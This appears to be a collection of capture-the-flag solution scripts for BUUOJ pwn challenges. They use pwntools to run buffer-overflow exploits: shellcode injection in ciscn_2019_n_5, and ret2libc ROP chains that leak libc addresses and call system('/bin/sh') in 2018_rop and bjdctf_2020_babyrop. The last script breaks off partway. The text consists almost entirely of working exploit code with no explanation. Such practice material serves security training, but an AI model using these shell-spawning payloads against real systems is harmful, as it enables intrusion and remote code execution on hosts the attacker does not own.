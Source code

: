 ## ciscn_2019_n_5

from pwn import *
context(os='linux',arch='amd64',log_level='debug')
elf = ELF("./pwn4")
p = remote('node4.buuoj.cn',25661)
shellcode=asm(shellcraft.sh())
p.sendlineafter('name\n',shellcode)
payload=flat(b'a'*0x28+p64(0x601080))
p.sendlineafter('me?\n',payload)
p.interactive()

## 铁人三项(第五赛区)_2018_rop

#encoding = utf-8
from pwn import * 
from LibcSearcher import * 
context(os = 'linux',arch = 'i386',log_level = 'debug')
elf = ELF('./2018_rop')
p = remote('node4.buuoj.cn',25020)
main_addr      = elf.sym['main']
plt_write_addr = elf.plt['write']
got_write_addr = elf.got['write']
payload        = b'a'*(0x88+0x4) + p32(plt_write_addr) + p32(main_addr) + p32(1) + p32(got_write_addr) + p32(4)
p.sendline(payload)
write_addr     = u32(p.recv(4))
print(hex(write_addr))
lib             = LibcSearcher('write',write_addr)
lib_write_addr  = lib.dump('write')
lib_system_addr = lib.dump('system')
lib_bin_addr    = lib.dump('str_bin_sh')
base_addr       = write_addr - lib_write_addr
system_addr     = base_addr  + lib_system_addr
bin_addr 	= base_addr  + lib_bin_addr
payload = b'a'*(0x88+0x4) + p32(system_addr) + b'aaaa' + p32(bin_addr)
p.sendline(payload)
p.interactive()

## bjdctf_2020_babyrop

from pwn import*
from LibcSearcher import *
context.log_level='debug'
r=remote('node4.buuoj.cn',28646)
elf=ELF('./pwn6')
main_addr=elf.sym['main']
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_ret=0x400733
payload1=b'a'*0x28+p64(pop_ret)+p64(puts_got)+p64(puts_plt)+p64(main_addr)

